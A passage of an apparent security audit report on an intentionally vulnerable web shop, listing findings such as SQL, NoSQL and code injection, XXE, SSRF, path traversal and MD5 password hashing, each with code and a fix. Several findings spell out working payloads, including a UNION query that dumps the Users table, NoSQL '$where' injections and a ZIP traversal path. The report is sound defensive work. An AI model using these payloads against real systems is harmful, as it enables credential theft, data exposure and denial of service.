**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-007](#m-007) — Replace raw SQL login query with parameterized Sequelize query

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/search.ts`:23

**Issue:** `req.query.q` is assigned to `criteria` and truncated to 200 characters at `routes/search.ts:22`, then interpolated into `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`. A UNION-based payload — `%')) UNION SELECT id,email,password,role,NULL,NULL,NULL FROM Users--` — returns all user rows including hashed passwords and roles in the product search response. The 200-character limit does not prevent short UNION payloads. Unauthenticated attacker extracts the full Users table including email, hashed passwords, and role fields through the public search endpoint.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified — `routes/search.ts:23` passes `criteria` derived from `req.query.q` directly into a `models.sequelize.query()` template literal without parameterization.

```typescript
// `routes/search.ts:23`
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = `req.query.q` === 'undefined' ? '' : `req.query.q` ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-008](#m-008) — Replace raw search query with parameterized Sequelize LIKE query

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) — B2B Order API  ·  **Location:** `routes/b2bOrder.ts`:23

**Issue:** `routes/b2bOrder.ts:19` reads `body.orderLinesData` without any schema validation or type constraints and passes it directly to `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` at line 23. The `notevil` library (`safeEval`) is a JavaScript expression evaluator with documented sandbox escapes — prototype pollution chains, constructor access, or function constructor tricks can reach the host `Node.js` process from within the sandbox context. A JWT-authenticated attacker sends a `POST /b2b/v2/orders` request with `orderLinesData` set to a crafted payload that escalates from the `vm.Context` into the parent `Node.js` process, enabling arbitrary command execution under the application process account. The 2-second timeout only prevents infinite loops; it does not prevent fast-executing payloads. Successful sandbox escape grants the attacker arbitrary server-side code execution as the `Node.js` process user, enabling data exfiltration, lateral movement, or persistent backdoor installation.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialisation, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified — `body.orderLinesData` is assigned without validation at line 19, then placed in a `vm.Context` sandbox and evaluated at line 23 — the path from network input to `vm.runInContext` has zero sanitization checkpoints.

```typescript
// `routes/b2bOrder.ts:23`
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: `uniqueOrderNumber()`, paymentDue: `dateTwoWeeksFromNow()` })
      } catch (err) {
        if (utils.getErrorMessage(err).match(`/Script` execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-011](#m-011) — Replace safeEval with a strict JSON schema parser for orderLinesData in routes/b2bOrder.ts

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

### 🟠 High (23)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · OAuth Implicit Flow Without PKC…

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts`:134

**Issue:** `login.component.ts:134` constructs the Google OAuth redirect as `response_type=token` — the legacy implicit flow. No `state` parameter is included, so a cross-site request can substitute its own `access_token` in the redirect URL fragment. No PKCE code challenge is sent, so an authorization code interceptor could exchange the code without the original client secret. An attacker who injects a crafted access_token via a cross-site redirect can log in as an arbitrary Google user; lack of state allows CSRF against the OAuth flow itself.

**Evidence:** ✓ verified — `googleLogin()` in `login.component.ts` constructs the authorization URL with `response_type=token` and no `state` parameter, confirming the implicit-flow pattern without CSRF protection.

```typescript
// `frontend/src/app/login/login.component.ts:134`

  googleLogin () {
    this.windowRefService.nativeWindow.location.replace(`${oauthProviderUrl}?client_id=${this.clientId}&response_type=token&scope=email&redirect_uri=${this.redirectUri}`)
  }
}
```

**Fix:** ❸ [M-012](#m-012) — Migrate Google OAuth flow to Authorization Code with PKCE and add state validation

**Classification:** OAuth / OIDC Misconfiguration · [CWE-598](https://cwe.mitre.org/data/definitions/598.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `server.ts`:309

**Issue:** `POST /file-upload` is registered at `server.ts:309` with the middleware chain `uploadToMemory.single('file'), ensureFileIsPassed, checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handleYamlUpload`. No `security.isAuthorized()` call appears in this chain. An unauthenticated HTTP client can submit XML, YAML, or ZIP files to this endpoint without any session cookie or Authorization header. All file-upload attack vectors (XXE, Zip Slip, YAML bomb) are reachable without authentication, broadening the attack surface to any internet-facing client.

**Evidence:** ✓ verified — `server.ts:309` registers the file-upload route without the `security.isAuthorized()` middleware that protects adjacent sensitive endpoints such as `POST /api/Complaints` at line 381.

```typescript
// `server.ts:309`
  app.use(bodyParser.urlencoded({ extended: true }))
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, `metrics.observeFileUploadMetricsMiddleware()`, checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, `metrics.observeFileUploadMetricsMiddleware()`, `profileImageFileUpload()`)
  app.post('/profile/image/url', uploadToMemory.single('file'), `profileImageUrlUpload()`)
```

**Fix:** ❷ [M-013](#m-013) — Add security.isAuthorized() middleware to the POST /file-upload route

**Classification:** Broken Authentication · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · XML External Entity (XXE)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/fileUpload.ts`:83

**Issue:** When an XML file is uploaded to `/file-upload`, the handler parses it with libxmljs2 using `{ noent: true }` (external entities enabled): `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })`. An attacker uploads a crafted XML file containing an external entity declaration referencing `/etc/passwd` or an internal service URL. The `noent: true` option causes libxmljs to resolve and substitute these entities during parse. An unauthenticated attacker reads arbitrary files from the server filesystem (e.g., `/etc/passwd`, private keys) via XXE, and can trigger internal SSRF via entity URLs.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified — Line 83 in `routes/fileUpload.ts` calls `libxml.parseXml(data, { noent: true })` on attacker-supplied XML data, enabling external entity resolution.

```typescript
// `routes/fileUpload.ts:83`
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❷ [M-020](#m-020) — Disable external entity processing in libxmljs2 XML parse options

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) — Data Layer  ·  **Location:** `models/index.ts`:39

**Issue:** Sequelize is initialized at `models/index.ts:39` with `logging: false`, silencing all SQL query logs. MarsDB in `data/mongodb.ts` has no logging wrapper. Neither data store emits structured events for authentication attempts (successful or failed), review mutations, or order modifications. Post-incident forensics cannot determine which accounts were accessed or which data was exfiltrated via injection, preventing breach scope assessment.

**Evidence:** ✓ verified — `models/index.ts:39` sets `logging: false` and no audit hook is registered on any Sequelize model or MarsDB collection.

```typescript
// `models/index.ts:39`
  transactionType: Transaction.TYPES.IMMEDIATE,
  storage: 'data/juiceshop.sqlite',
  logging: false
})
AddressModelInit(sequelize)
```

**Fix:** ❷ [M-021](#m-021) — Enable structured query logging and add Sequelize model audit hooks

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/Services/request.interceptor.ts`:13

**Issue:** `login.component.ts:101`, `oauth.component.ts:51`, and `two-factor-auth-enter.component.ts:53` all write the JWT to `localStorage` as `localStorage.setItem('token', ...)`. `request.interceptor.ts:13-16` reads it and attaches it as the `Authorization: Bearer` header on every outbound API request. `localStorage` is accessible to any JavaScript running in the same origin — a single stored XSS payload (multiple present in this component) can call `localStorage.getItem('token')` and exfiltrate the token to an attacker-controlled endpoint. Any successful XSS in this application exfiltrates the victim's authentication JWT, enabling persistent session hijacking for the token's full lifespan.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified — `localStorage.setItem('token', authentication.token)` appears in three distinct authentication flows; `request.interceptor.ts:13` reads and attaches it on every request.

**Fix:** ❸ [M-023](#m-023) — Migrate JWT storage from localStorage to HttpOnly Secure SameSite=Strict cookies via a Backend-for-Frontend

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Password Hash with Insufficient Effort

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `lib/insecurity.ts`:43

**Issue:** `lib/insecurity.ts:43` defines `export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')`. This function is called in `models/user.ts:77` (`this.setDataValue('password', security.hash(clearTextPassword))`) for all password storage and in `routes/login.ts:34` for the login comparison. MD5 is a fast, unsalted hash: a 1TB rainbow table covers all 8-character passwords, and online cracking services (e.g. CrackStation) resolve common MD5 digests in seconds. A database dump obtained via SQL injection yields plaintext passwords for all users, enabling account takeover across any service where users reuse passwords.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified — `lib/insecurity.ts:43` applies unsalted MD5 to all passwords stored in the `Users` table, making any database dump immediately reversible.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❷ [M-024](#m-024) — Replace MD5 password hashing with bcrypt or Argon2

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Use of a Broken or Risky Cryptographic Algorithm

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `lib/insecurity.ts`:43

**Issue:** All user passwords are hashed using MD5: `export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')`. MD5 is a fast, non-salted, non-iterative hash — modern GPUs can compute billions of MD5 hashes per second. An attacker who obtains the Users table (e.g., via the SQL injection on the search or login endpoints) can crack all password hashes offline in minutes to hours using GPU-accelerated rainbow tables. An attacker who exfiltrates the user table recovers plaintext passwords for most users, enabling account takeover across the application and any other service where users reuse passwords.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified — Line 43 in `lib/insecurity.ts` hashes passwords with `crypto.createHash('md5')` without a salt or work factor.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ❷ [M-024](#m-024) — Replace MD5 password hashing with bcrypt or Argon2

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Server-Side Request Forgery (SSRF)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/profileImageUrlUpload.ts`:24

**Issue:** The profile image URL upload handler fetches an attacker-supplied URL using the `Node.js` `fetch()` API without any scheme or host allowlist: `const response = await fetch(url)` at line 24. An authenticated attacker can supply URLs like `http://169.254.169.254/latest/meta-data/` (AWS IMDS) or `http://localhost:3000/metrics` to probe internal services. The response body is written to disk and the file path is stored in the database, meaning the attacker can then read the fetched content by accessing their profile image. An authenticated attacker can probe internal network hosts and cloud metadata endpoints, potentially leaking cloud credentials, service tokens, or internal API responses.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified — Line 24 in `routes/profileImageUrlUpload.ts` calls `fetch(url)` where `url` is `req.body.imageUrl` with no scheme/host restriction.

```typescript
// `routes/profileImageUrlUpload.ts:24`
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❷ [M-025](#m-025) — Enforce URL scheme and host allowlist before fetching profile image URLs

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `server.ts`:346

**Issue:** The application enables `trust proxy` globally (`app.enable('trust proxy')`) and then configures rate limiting on `/rest/user/reset-password` with a custom key generator: `keyGenerator ({ headers, ip }) { return headers['X-Forwarded-For'] ?? ip }`. Because `trust proxy` is enabled without a hop count (it should be set to the number of trusted reverse proxy hops), Express trusts the `X-Forwarded-For` header from any client. An attacker performs unlimited brute-force attempts against password reset and login endpoints, leading to account compromise at scale.

**Evidence:** ✓ verified — Line 346 in `server.ts` uses `headers['X-Forwarded-For']` as the rate-limit key without verifying that the header originates from a trusted proxy.

```typescript
// `server.ts:346`
    windowMs: 5 * 60 * 1000,
    max: 100,
    keyGenerator ({ headers, ip }: { headers: any, ip: any }) { return headers['X-Forwarded-For'] ?? ip } // vuln-code-snippet vuln-line resetPasswordMortyChallenge
  }))
  // vuln-code-snippet end resetPasswordMortyChallenge
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-028](#m-028) — Fix X-Forwarded-For-based rate limit key and add rate limiting to login endpoint

**Classification:** Denial of Service · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) — File Upload Service  ·  **Location:** `routes/fileUpload.ts`:117

**Issue:** `handleYamlUpload` at `routes/fileUpload.ts:117` calls `yaml.load(data)` inside a vm sandbox with a 2000ms timeout. A YAML billion-laughs bomb (deeply nested anchor expansion) causes `js-yaml`'s internal string operations to allocate gigabytes of memory before the JavaScript engine raises `Invalid string length`. The catch block at line 122 handles this condition and marks the `yamlBombChallenge` as solved, then returns a 503. `Node.js` process OOM termination or severe memory pressure affecting all application users, achievable without authentication.

**Evidence:** ✓ verified — `yaml.load(data)` at line 117 uses `js-yaml`'s full-schema loader; the vm timeout guards against CPU exhaustion but not against memory exhaustion from anchor expansion before string length is checked.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-029](#m-029) — Add rate limiting on the YAML/XML upload endpoint and cap YAML anchor expansion

**Classification:** Insecure File Handling · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Client Side Only Admin Route

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.guard.ts`:54

**Issue:** `AdminGuard.canActivate()` in `app.guard.ts:54` reads `localStorage.getItem('token')`, decodes it client-side via `jwtDecode(token)`, and checks `payload.data.role === roles.admin`. `jwtDecode` does not verify the JWT signature — it only base64-decodes the payload. An attacker with console access to their own browser can set `localStorage.setItem('token', craftedAdminJwt)` with a crafted payload asserting `role=admin` and the guard passes, rendering admin routes. An attacker can bypass client-side route protection and access the admin panel UI, enabling enumeration of admin API endpoints and CSRF-style attacks through the admin interface.

**Evidence:** ✓ verified — `app.guard.ts:54` checks `payload.data.role === roles.admin` where `payload` comes from `jwtDecode(token)` — a decode-only operation with no signature verification.

**Fix:** ❷ [M-030](#m-030) — Back admin route guard with a server-side authorization check or signature-verified token claim

**Classification:** Broken Authentication · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Path Traversal

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) — File Upload Service  ·  **Location:** `routes/fileUpload.ts`:42

**Issue:** `handleZipFileUpload` at `routes/fileUpload.ts:40-48` iterates ZIP entries and resolves each entry path at line 42: `const absolutePath = path.resolve('uploads/complaints/' + fileName)`. The guard at line 44 checks `absolutePath.includes(path.resolve('.'))` — a string containment check against the current working directory. A ZIP entry named `../../ftp/legal.md` resolves to `<cwd>/ftp/legal.md`; this path does include `path.resolve('.')`, so the check passes. Arbitrary file overwrite within the application directory tree, including source files (`routes/*.ts`), FTP-served files (`ftp/`), and configuration — enabling persistent server-side modification or data destruction.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified — The containment check at line 44 passes for paths that traverse INTO subdirectories of the CWD (e.g. `ftp/`, `lib/`, `routes/`) because those paths also contain the CWD prefix string, but line 45 uses the raw unsanitized filename in the `createWriteStream` call.

```typescript
// `routes/fileUpload.ts:42`
              .on('entry', function (entry: any) {
                const fileName = entry.path
                const absolutePath = path.resolve('uploads/complaints/' + fileName)
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❷ [M-033](#m-033) — Normalize ZIP entry paths and enforce a strict allowlist prefix before writing

**Classification:** Injection · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · NoSQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/showProductReviews.ts`:36

**Issue:** `routes/showProductReviews.ts:36` passes `req.params.id` directly into MarsDB's `$where` operator: `db.reviewsCollection.find({ $where: 'this.product == ' + id })`. When `challenges.noSqlCommandChallenge` is enabled, `id` is `utils.trunc(req.params.id, 40)` — a JavaScript string. An attacker sends `id = '0; sleep(2000)'`, which evaluates to `this.product == 0; sleep(2000)` inside the `$where` JavaScript predicate, executing the globally defined `global.sleep()` function and blocking the `Node.js` event loop for up to 2000ms per request. Attacker with public network access can block the `Node.js` event loop for 2 seconds per request, enabling sustained denial of service against the single-threaded server.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified — `routes/showProductReviews.ts:36` concatenates `req.params.id` into the MarsDB `$where` JavaScript expression without sanitization.

```typescript
// `routes/showProductReviews.ts:36`
    const t0 = new Date().getTime()

    db.reviewsCollection.find(`{ $where: 'this.product == ' + id }`).then((reviews: Review[]) => {
      const t1 = new Date().getTime()
      challengeUtils.solveIf(challenges.noSqlCommandChallenge, () => { return (t1 - t0) > 2000 })
```

**Fix:** Replace string concatenation in query operators with parameter binding → ❷ [M-018](#m-018) — Replace MarsDB \$where JavaScript evaluation with a direct field equality query

**Classification:** Injection · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · NoSQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/trackOrder.ts`:18

**Issue:** `routes/trackOrder.ts:18` builds the MarsDB query as `db.ordersCollection.find({ $where: \``this.orderId` === '${id}'\` })`. When `challenges.reflectedXssChallenge` is enabled, `id` is `utils.trunc(req.params.id, 60)` — a raw string. An attacker supplies `'; return true; var x = '` which evaluates to `this.orderId === ''; return true; var x = ''`, causing the predicate to return `true` for every document and returning the entire orders collection. Attacker retrieves all orders from the MarsDB orders collection, including other customers' order details and delivery addresses.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified — `routes/trackOrder.ts:18` interpolates `req.params.id` into a MarsDB `$where` JavaScript expression, bypassing any field-equality filter.

```typescript
// `routes/trackOrder.ts:18`

    challengeUtils.solveIf(challenges.reflectedXssChallenge, () => { return utils.contains(id, '<iframe src="javascript:alert(`xss`)">') })
    db.ordersCollection.find({ \$where: `this.orderId === '${id}'` }).then((order: any) => {
      const result = utils.queryResultToJson(order)
      challengeUtils.solveIf(challenges.noSqlOrdersChallenge, () => { return result.data.length > 1 })
```

**Fix:** Replace string concatenation in query operators with parameter binding → ❷ [M-019](#m-019) — Replace \$where order query with direct field equality and strict ID format validation

**Classification:** Injection · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/login.ts`:34

**Issue:** Authentication events (successful login, failed login, password reset) are processed in `routes/login.ts` and `routes/resetPassword.ts` without any call to `logger.*` or an audit sink. The only logging is the HTTP access log via Morgan (combined format, line 338 of `server.ts`), which records request method/path/IP/status but not the authenticated user identity, the account targeted, or the success/failure of the authentication decision. An attacker who compromises an account can deny the action, and incident responders have no forensic record of which accounts were accessed, when, and from where. Post-incident forensic analysis is impossible — attackers can deny account compromise, and security teams cannot determine the blast radius of a breach.

**Evidence:** ✓ verified — Neither `routes/login.ts` nor `routes/resetPassword.ts` contain any `logger.info/warn/error` calls recording authentication events; only Morgan HTTP access logs exist.

```typescript
// `routes/login.ts:34`
  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
```

**Fix:** ❷ [M-022](#m-022) — Emit structured security audit log entries for authentication and admin events

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) — B2B Order API  ·  **Location:** `routes/b2bOrder.ts`:23

**Issue:** `routes/b2bOrder.ts:23` runs `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` for every authenticated request to `POST /b2b/v2/orders`. Each request that triggers the evaluation path blocks the `Node.js` event loop for up to 2 seconds. No rate limiter is applied to the `/b2b/v2` route group (confirmed by absence in `server.ts` — rate limiting is only configured for `/rest/user/reset-password` and the 2FA endpoints). The `Node.js` process becomes unresponsive to all requests, causing a full application-level outage for the duration of the attack.

**Evidence:** ✓ verified — No `rateLimit()` middleware appears in `server.ts` for the `/b2b/v2` route group; `vm.runInContext` at line 23 blocks synchronously up to 2 seconds per request.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-026](#m-026) — Add express-rate-limit middleware to the /b2b/v2 route group in server.ts

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · NoSQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/showProductReviews.ts`:23

**Issue:** `routes/showProductReviews.ts:17-25` defines `global.sleep = (time) => { ... }` as a synchronous busy-wait loop capped at 2000ms. The `$where` predicate at line 36 evaluates attacker-supplied JavaScript — `0; sleep(2000)` — blocking the `Node.js` event loop for 2 full seconds per request. Any unauthenticated client can render the application unavailable for all users by sending concurrent requests to the product reviews endpoint with a `sleep()` payload.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified — `routes/showProductReviews.ts:23` defines a synchronous `global.sleep()` that, when invoked via the `$where` injection vector at line 36, blocks the entire Node.js event loop.

```typescript
// `routes/showProductReviews.ts:23`
  }
  const stop = new Date().getTime()
  while (new Date().getTime() < stop + time) {
    ;
  }
```

**Fix:** Replace string concatenation in query operators with parameter binding → ❷ [M-027](#m-027) — Remove global.sleep definition and replace \$where query with field equality

**Classification:** Injection · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/updateProductReviews.ts`:18

**Issue:** `routes/updateProductReviews.ts:18` calls `db.reviewsCollection.update({ _id: req.body.id }, { $set: { message: req.body.message } }, { multi: true })`. The `_id` is attacker-supplied and no filter constrains the update to reviews owned by the authenticated user. Combined with `{ multi: true }`, submitting the MongoDB wildcard or an empty `_id` matching multiple documents allows overwriting all reviews in the store. Authenticated attacker overwrites reviews belonging to other users, or mass-edits all reviews by leveraging `multi: true`.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified — `routes/updateProductReviews.ts:18` passes `req.body.id` directly as the `_id` filter without checking that the matched review's `author` equals the requesting user's email.

```typescript
// `routes/updateProductReviews.ts:18`
    const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
    db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
      { _id: `req.body.id` }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
      `{ $set: { message: req.body.message } }`,
      { multi: true } // vuln-code-snippet vuln-line noSqlReviewsChallenge
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-031](#m-031) — Add author ownership check to review update query

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Improper Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/updateProductReviews.ts`:18

**Issue:** The `updateProductReviews` handler performs a MongoDB update with `{ multi: true }`: `db.reviewsCollection.update({ _id: req.body.id }, { $set: { message: req.body.message } }, { multi: true })`. The `_id` field comes from `req.body.id` without validation. An attacker can send a NoSQL query operator (e.g., `{ "$gt": "" }` or `{}`) as the `id` value, matching all review documents, while `multi: true` applies the update to all matches. An authenticated user overwrites all product reviews in the database with arbitrary content, destroying data integrity and enabling defacement.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

